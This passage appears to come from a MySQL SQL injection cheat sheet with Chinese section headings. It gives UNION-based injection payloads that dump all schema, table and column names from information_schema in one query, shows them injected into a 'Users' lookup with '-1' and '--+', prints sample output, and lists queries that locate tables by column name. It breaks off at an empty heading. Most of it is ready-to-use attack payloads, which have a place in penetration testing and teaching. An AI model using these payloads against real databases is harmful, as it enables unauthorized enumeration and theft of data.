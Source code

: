 

__一次检索出大量的表和列__

	SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema>=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x

__Example:__

	SELECT * FROM Users WHERE id = '-1' UNION SELECT 1, 2, (SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema>=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x), 4--+';

__Output:__

	[ information_schema ] >CHARACTER_SETS > CHARACTER_SET_NAME
	[ information_schema ] >CHARACTER_SETS > DEFAULT_COLLATE_NAME
	[ information_schema ] >CHARACTER_SETS > DESCRIPTION
	[ information_schema ] >CHARACTER_SETS > MAXLEN
	[ information_schema ] >COLLATIONS > COLLATION_NAME
	[ information_schema ] >COLLATIONS > CHARACTER_SET_NAME
	[ information_schema ] >COLLATIONS > ID
	[ information_schema ] >COLLATIONS > IS_DEFAULT
	[ information_schema ] >COLLATIONS > IS_COMPILED
						

	SELECT MID(GROUP_CONCAT(0x3c62723e, 0x5461626c653a20, table_name, 0x3c62723e, 0x436f6c756d6e3a20, column_name ORDER BY (SELECT version FROM information_schema.tables) SEPARATOR 0x3c62723e),1,1024) FROM information_schema.columns

__Example:__

	SELECT username FROM Users WHERE id = '-1' UNION SELECT MID(GROUP_CONCAT(0x3c62723e, 0x5461626c653a20, table_name, 0x3c62723e, 0x436f6c756d6e3a20, column_name ORDER BY (SELECT version FROM information_schema.tables) SEPARATOR 0x3c62723e),1,1024) FROM information_schema.columns--+';

__Output:__

	Table: talk_revisions
	Column: revid
	
	Table: talk_revisions
	Column: userid
	
	Table: talk_revisions
	Column: user
	
	Table: talk_projects
	Column: priority

__从列名中查找表__

	SELECT table_name FROM information_schema.columns WHERE column_name = 'username';	Finds the table names for any columns named username.
	SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';	Finds the table names for any columns that contain the word user.

__从表名中查找列__

		 
	